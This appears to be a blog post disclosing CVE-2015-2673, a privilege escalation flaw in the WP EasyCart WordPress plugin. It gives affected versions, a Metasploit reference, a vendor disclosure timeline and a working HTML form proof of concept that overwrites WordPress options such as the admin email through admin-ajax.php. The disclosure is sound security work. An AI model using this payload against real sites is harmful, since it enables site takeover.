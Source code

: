 ```yaml
---
layout: post
title: WP EasyCart Privilege Escalation Information Disclosure
date: 2015-02-26
categories:
  - security
  - websec
  - disclosure
tags:
  - wordpress
  - wp-easycart
  - privilege escalation
---
```

Due to a lack of validation in the `ec_ajax_update_option` and `ec_ajax_clear_all_taxrates` functions located in `/inc/admin/admin_ajax_functions.php`, it is possible to update any WordPress option as an authenticated non-admin user, which can in turn lead to privilege escalation and remote code execution.

## CVE-ID
[CVE-2015-2673](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2015-2673)

## WPVDB-ID
[7808](https://wpvulndb.com/vulnerabilities/7808)

## Versions Affected
All versions from 1.1.30 to 3.0.20

## Metasploit Module
[http://www.rapid7.com/db/modules/auxiliary/admin/http/wp\_easycart\_privilege\_escalation](http://www.rapid7.com/db/modules/auxiliary/admin/http/wp_easycart_privilege_escalation)

## Proof of Concept
Set the `option_name` and `option_value` fields in the below markup to the option and value you wish to update. For a full list of possible options, see the official [Option Reference](http://codex.wordpress.org/Option_Reference) page.

```xml
<form action="http://wordpress_installation_path_here/wp-admin/admin-ajax.php?action=ec_ajax_update_option" method="post">
    <input type="hidden" name="option_name" value="admin_email" />
    <input type="hidden" name="option_value" value="newaddress@somedomain.com" />
    <button type="submit">Submit</button>
</form>
```

## Disclosure Timeline
* **2015-02-22:** Discovered vulnerability and contacted vendor to disclose
* **2015-02-23:** Acknowledgement from vendor, ETA of 24-48 hours for patch
* **2015-02-23:** Contacted vendor again to disclose same vulnerability in another function (`ec_ajax_clear_all_taxrates`)
* **2015-02-24:** Vendor confirmed issues have been patched and is releasing update shortly
* **2015-02-25:** Version 3.0.20 released by vendor
* **2015-02-25:** Contacted vendor again to let them know the patch did not resolve the issue and it is still exploitable
* **2015-02-25:** Vendor released new update to resolve issues
* **2015-02-25:** CVE-ID requested
* **2015-02-26:** Public disclosure
